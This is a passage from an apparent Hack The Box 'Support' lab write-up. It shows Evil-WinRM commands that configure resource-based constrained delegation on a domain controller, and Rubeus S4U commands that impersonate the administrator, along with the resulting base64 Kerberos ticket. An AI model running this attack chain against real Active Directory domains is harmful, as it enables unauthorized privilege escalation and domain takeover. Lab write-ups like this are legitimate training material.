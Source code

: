  

```python
*Evil-WinRM* PS C:\Users\support\Documents> $TargetComputer="DC"
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Once all this is done we will request a Silver ticket for the service we want in the machine we are taking over.

```powershell
.\rubeus.exe hash /password:Summer2018!
.\rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb
[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
*Evil-WinRM* PS C:\Users\support\Documents>
```

Now back in out attacking machine we have to convert the ticket to one that can be used with impacket suite.
